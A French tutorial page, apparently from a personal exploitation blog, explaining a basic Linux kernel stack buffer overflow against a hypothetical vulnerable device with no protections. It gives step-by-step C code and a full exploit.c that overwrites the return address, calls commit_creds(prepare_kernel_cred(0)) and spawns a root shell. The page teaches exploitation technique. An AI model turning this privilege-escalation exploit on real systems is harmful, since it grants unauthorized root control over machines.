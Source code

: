 # Buffer Overflow Basic

## Overview
Tout comme pour une exploitation de **BoF** en user-land, notre objectif va être d&#39;overwrite la return address de la fonction vulnérable pour prendre le contrôle du flow d&#39;exécution. 
On se place ici dans le cas où aucune protection n&#39;est présente au niveau du kernel. 
## Detail
Notre objectif lors de l&#39;exploitation d&#39;un buffer overflow en kernel-land est de réussir a exécuter du code user-land tout en profitant de l&#39;exécution de code kernel-land pour [élever nos privilèges](/pwn/kernel/kernel-privesc).

Ainsi, un schéma d&#39;attaque classique nous donnerait :
1) Exploiter le buffer overflow.
2) Overwrite l&#39;adresse de retour de la fonction vulnérable par l&#39;adresse de la fonction *privesc()*.
	- *privesc()* passe les privilèges du process, lancé par notre binaire *exploit*, a root.
3) Maintenant qu&#39;on a des privilèges root, on peut lancer un *system(&#34;/bin/sh&#34;)*.
![task_struct](/images/kernel_bof.png)
## Exploit
Pour implémenter cette attaque, on va se mettre dans le cas où on peut interagir avec une device, dont la propriété **write** fait appel à une fonction vulnérable à un buffer overflow. Ainsi, lorsque l&#39;on va *write()* plus de caractères qu&#39;attendu, on va overflow sur la stack kernel.

Pour exploiter cela, on va tout d&#39;abord devoir ouvrir la device pour interagir avec elle.
```c title:open_dev()
int global_fd;

void open_dev(){
  global_fd = open(&#34;/dev/vulnDevice&#34;, O_RDWR);
	if (global_fd &lt; 0){
		puts(&#34;[!] Failed to open device&#34;);
		exit(-1);
	} else {
      puts(&#34;[*] Opened device&#34;);
  }
}
```

Ensuite on va préparer notre fonction *privesc()* que l&#39;on va appeler une fois avoir pris le contrôle sur le flow d&#39;exécution côté kernel.

| Pour mieux comprendre le principe de l&#39;élévation de privilèges côté kernel, allez voir : [Kernel Privesc](/pwn/kernel/kernel-privesc). |
| --- |

```c title:privesc()
unsigned long __attribute__((regparm(3))) (*commit_creds)(unsigned long cred);
unsigned long __attribute__((regparm(3))) (*prepare_kernel_cred)(unsigned long cred);

void privesc(){
  commit_creds = 0xc107...;
  prepare_kernel_cred = 0xc107...;
  commit_creds(prepare_kernel_cred(0));
}
```

Maintenant qu&#39;on a la fonction qui va nous permettre d&#39;élever nos privilèges, on va pouvoir overflow sur la stack kernel et rediriger le flow d&#39;exécution vers cette fonction.
```c title:overflow()
void overflow(){
  // Overlow at 64 bytes
  unsigned long long payload[17] = {0};
  payload[16] = (unsigned long)privesc;

  write(global_fd, payload, sizeof(payload));
}
```

Grâce à cet exploit, nous avons manipulé le kernel pour qu&#39;il passe le process spawn par *exploit* en tant que process root. Il ne nous reste plus qu&#39;à run un *system(&#34;/bin/sh&#34;)* pour obtenir un shell root.

En résumé, notre exploit final donne quelque chose comme :
```c title:exploit.c
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;fcntl.h&gt;

int global_fd;

unsigned long __attribute__((regparm(3))) (*commit_creds)(unsigned long cred);
unsigned long __attribute__((regparm(3))) (*prepare_kernel_cred)(unsigned long cred);

void open_dev(){
  global_fd = open(&#34;/dev/vulnDevice&#34;, O_RDWR);
	if (global_fd &lt; 0){
		puts(&#34;[!] Failed to open device&#34;);
		exit(-1);
	} else {
      puts(&#34;[*] Opened device&#34;);
  }
}

void privesc(){
  commit_creds = 0xc107...;
  prepare_kernel_cred = 0xc107...;
  commit_creds(prepare_kernel_cred(0));
}

void overflow(){
  unsigned long long payload[17] = {0};
  payload[16] = (unsigned long)privesc;
  write(global_fd, payload, sizeof(payload));
}

int main() {
  open_dev();
  overflow();
  system(&#34;/bin/sh&#34;);
  return 0;
}
```


---

> Author:   
> URL: http://my.littlepwney.fr/pwn/kernel/attacks/buffer-overflow-basic/  

